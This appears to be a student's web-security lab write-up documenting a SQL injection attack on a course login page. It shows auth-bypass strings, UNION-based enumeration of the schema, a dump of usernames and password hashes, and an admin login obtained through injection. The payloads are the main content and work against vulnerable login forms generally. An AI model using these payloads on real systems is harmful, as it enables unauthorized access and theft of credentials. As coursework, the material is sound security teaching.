

# Assignment curs 3

- access page: http://193.226.5.99/websec2/index.php

**Attempt 1:**
- username: `' OR 1=1`
- password: `' OR 1=1`
- motivation: supposed that the query is made with the following pattern:
``` 
SELECT columns FROM table WHERE username=$username AND password=$password;
```

**Attempt 2:**
- username: `'`
- password: `'`
- motivation: trying to trigger an error to retrieve more information about the query formulation (Only th generic error message)

**Attempt 3:**
- username: `' OR 1=1 -- `
- password: `something`
- received:
``` 
You are getting close.
Hint: too many results matched in the database.
```

**Attempt 4:**
- username: `' OR 1=1 LIMIT 1 -- `
- password: `something`
- received:

|Nume	|Email|
|-------|------|
|John Brown	|john.brown@email.com|
|Ana Soare	|ana.soare@corporate.com|
|Sorin Harvey|	sharvey@customemail.com|
|Joe Black	|black@myemail.com|

**Steps from [lab2 assignment](../lab2/WS%20-%20Assignment%202.pdf)**

- `' order by 5 -- ` 

-> throws error
- `' order by 2 -- ` 

-> order by name => name is the second column in table
- `' order by 3 -- ` 

-> order by mail => mail is the third column in table

- `' union select NULL, NULL, NULL, NULL -- ` 

-> gives the same result as after login (+ an empty row)

- `' union select NULL, NULL, NULL, @@VERSION -- ` 

-> also adds an empty row to the result

- `' union select 3, @@VERSION -- ` 

-> throws error

- `' union select @@VERSION, @@VERSION, @@VERSION, @@VERSION -- ` 

-> gives the version on the last row (both cells) -> `10.5.15-MariaDB-0+deb11u1`

- `' union select system_user(), system_user(), system_user(), system_user() -- ` 

-> same as the above, but the result of `system_user()` is `ws_user@localhost`

- `' union select database(), database(), database(), database() -- ` 

-> same as the above, but the result of `database()` is `websec2`

- `' UNION SELECT NULL, concat(table_name), NULL, NULL FROM information_schema.tables WHERE table_schema=database()#` 

-> returned `ag3nda` and `ut1l1zat0r1`

- `' UNION SELECT NULL, concat(column_name), NULL, NULL FROM information_schema.columns WHERE table_schema=database() # ` 

-> returned `id`, `nume_prenume`, `adresa_email`, `nr_telefon`, `ut1l1zat0r`, `pass_s3cr3t`

- `' UNION SELECT NULL, concat(column_name), NULL, NULL FROM information_schema.columns WHERE table_schema=database() AND table_name='ut1l1zat0r1' # ` 

-> returned `id`, `ut1l1zat0r`, `pass_s3cr3t`

- `' UNION SELECT NULL, concat(column_name), NULL, NULL FROM information_schema.columns WHERE table_schema=database() AND table_name='ag3nda' # ` 

-> returned `id`, `nume_prenume`, `adresa_email`, `nr_telefon`

- `' UNION SELECT NULL, ut1l1zat0r, pass_s3cr3t, NULL FROM ut1l1zat0r1 # ` 

-> returned:
|...|...|
|---|---|
|Th3Aw3s0meAdm1nistr@t0r|	1954e5145b89ba48cdb45fe771728951|
|UsEr%2	|d29e10a06574435bd04aae17a8cfbbe2|
|us3r.3|	0aed5d740d7fab4201e885019a36eace|

login:
- username: `Th3Aw3s0meAdm1nistr@t0r' -- `
- password: `parola`

- returned: same page but with an additional link: `Go to administrator page`


